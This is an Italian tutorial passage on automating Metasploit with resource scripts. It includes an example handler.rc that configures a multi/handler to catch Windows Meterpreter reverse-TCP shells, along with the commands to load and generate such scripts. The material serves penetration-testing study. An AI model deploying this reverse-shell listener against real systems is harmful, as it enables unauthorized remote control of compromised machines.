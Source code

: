 ## Automazione con Resource Scripts

Metasploit permette di automatizzare comandi ripetitivi tramite gli **script di risorse**, utilissimi per semplificare operazioni frequenti come la configurazione di un multi/handler. I file `.rc` possono essere scritti manualmente oppure generati automaticamente da sessioni precedenti.

Esempio di script `handler.rc`:
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

Per eseguire uno script `.rc` all’avvio:
```bash
msfconsole -r /path/to/handler.rc
```

Oppure direttamente da MSFconsole:
```bash
resource /path/to/handler.rc
```

È possibile **generare uno script automaticamente** con tutti i comandi usati durante una sessione di lavoro, utilizzando:
```bash
makerc /path/to/output.rc
```

I file `.rc` possono essere salvati anche nella cartella predefinita:
`/usr/share/metasploit-framework/scripts/resource/`

---

